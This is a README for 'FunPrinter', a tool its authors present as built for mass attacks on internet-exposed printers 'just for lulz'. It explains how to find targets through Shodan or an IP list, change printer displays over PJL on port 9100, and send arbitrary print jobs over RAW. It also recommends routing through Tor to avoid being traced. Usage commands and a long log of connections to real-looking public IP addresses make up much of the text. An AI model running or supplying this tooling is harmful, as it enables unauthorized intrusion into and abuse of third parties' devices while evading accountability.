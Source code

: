 # FunPrinter
```    
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/
```
### What is FunPrinter?
FunPrinter is a tool for perpetrating massive attacks on printers written by FunSec just for lulz.  
The tool has two modes: 
```
--mode shodan
--mode list 
```  
#### Shodan
The shodan mode searches for devices on the internet of things thanks to shodan api. To use this mode you will need yout own API key of shodan.
#### List
List mode reads a specific list and loads them into the program.  
Example list:  
```
140.223.12.34
80.211.32.12
90.23.442.12
5.123.422.12
```
### Message
```
--message <message_here>
```
This argument will specify the message that will be displayed on the printer's screen in case the printer uses PJL through port 9100.  
Example:
```
--message Hacked
```
##### Result (Old picture)
![Example](https://hacking-printers.net/wiki/images/thumb/1/16/PJL-display.png/800px-PJL-display.png)

#### TOR (Optional)
You can use tor to hide your identity (Recommended) so that no angry businessman tries to find you. To do this add --tor in the command of the script.
```python
socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 9050)
```
This line of code set the tor proxy in the script. Change the port if you need.

### How to use Usage
The first step is to have a file that you want to print on printers that have RAW protocol enabled.  
Example:
```
funsec@funsec # cat test.txt  
I hack you LMAO
```
If you use this file without going through A4.py it will not print correctly in the printer. The "test.txt" file needs to be a complete page.    

Then you need to execute this command:
```
kek@kek-PC # python A4.py test.txt
By FunSec with love ;)
```
After this simple step ... Happy hacking!.

Example:
```
kek@kek-PC # python funny.py --mode shodan/list --arg ip_list/shodan_api_key --message message (--tor) myfile
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/

[TOR] Verifying the connection to the proxy
[TOR] Actual IP: 77.247.181.162
[LIST] Reading list
[LIST] Done!. 199 ips loaded
[49.79.232.76] Connecting...
[49.79.232.76] Connection failed
[125.75.32.191] Connecting...
[125.75.32.191] Connection failed
[124.167.222.86] Connecting...
[124.167.222.86] Connection failed
[162.249.88.74] Connecting...
[162.249.88.74] Connected!
[162.249.88.74] Testing PJL
[162.249.88.74] Test completed!
[162.249.88.74] RICOH MP C4503
[162.249.88.74] Changing the display screen to Succ!
[162.249.88.74] Done!. Closing the connection
[213.248.30.125] Connecting...
[213.248.30.125] Connected!
[213.248.30.125] Testing PJL
[213.248.30.125] Protocol not supported. Closing the connection
[77.236.139.27] Connecting...
[77.236.139.27] Connected!
[77.236.139.27] Testing PJL
[77.236.139.27] Protocol not supported. Closing the connection
[95.173.193.20] Connecting...
[95.173.193.20] Connected!
[95.173.193.20] Testing PJL
[95.173.193.20] RAW protocol detected. Sending file
[95.173.193.20] Done!. Closing the connection
[218.75.141.13] Connecting...
[218.75.141.13] Connection failed
[173.247.166.122] Connecting...
[173.247.166.122] Connected!
[173.247.166.122] Testing PJL
[173.247.166.122] RAW protocol detected. Sending file
[173.247.166.122] Done!. Closing the connection
[112.171.47.235] Connecting...
[112.171.47.235] Connected!
[112.171.47.235] Testing PJL
[112.171.47.235] Protocol not supported. Closing the connection
[45.60.169.188] Connecting...
[45.60.169.188] Connected!
[45.60.169.188] Testing PJL
[45.60.169.188] Protocol not supported. Closing the connection
[107.154.163.139] Connecting...
[107.154.163.139] Connected!
[107.154.163.139] Testing PJL
[107.154.163.139] Protocol not supported. Closing the connection
[107.154.157.226] Connecting...
[107.154.157.226] Connected!
[107.154.157.226] Testing PJL
[107.154.157.226] Protocol not supported. Closing the connection
[107.154.206.184] Connecting...
[107.154.206.184] Connected!
[107.154.206.184] Testing PJL
[107.154.206.184] Protocol not supported. Closing the connection
[107.154.60.223] Connecting...
[107.154.60.223] Connected!
[107.154.60.223] Testing PJL
[107.154.60.223] Protocol not supported. Closing the connection
[203.130.62.58] Connecting...
[203.130.62.58] Connected!
[203.130.62.58] Testing PJL
[203.130.62.58] Protocol not supported. Closing the connection
[45.60.81.249] Connecting...
[45.60.81.249] Connected!
[45.60.81.249] Testing PJL
[45.60.81.249] Protocol not supported. Closing the connection
[177.0.87.163] Connecting...
[177.0.87.163] Connected!
[177.0.87.163] Testing PJL
[177.0.87.163] Test completed!
[177.0.87.163] Samsung M337x 387x 407x Series
[177.0.87.163] Changing the display screen to Succ!
[177.0.87.163] Done!. Closing the connection
[31.14.252.54] Connecting...
[31.14.252.54] Connected!
[31.14.252.54] Testing PJL
[31.14.252.54] RAW protocol detected. Sending file
[31.14.252.54] Done!. Closing the connection
[107.154.103.88] Connecting...
[107.154.103.88] Connected!
[107.154.103.88] Testing PJL
[107.154.103.88] Protocol not supported. Closing the connection
```
### Requeriments
```
python2.7 (Best version of python LMAO)
pip for python2.7
```
After having these two essential requirements, it is necessary to install the following modules with "pip install module" although this step can be done semiautomatically.  
#### Manual
Modules to install:
  ```
  PySocks, colorama, argparse, shodan
  ```
WARNING: Install all modules individually  
Example:  
Linux
```
pip install PySocks
```
Windows
```
C:\Python27\Scripts\pip.exe install PySocks
```
#### Semiautomatic
Run this command in yout shell m8  
Linux
```
pip install -r requeriments.txt
```
Windows
```
C:\Python27\Scripts\pip.exe install -r requeriments.txt
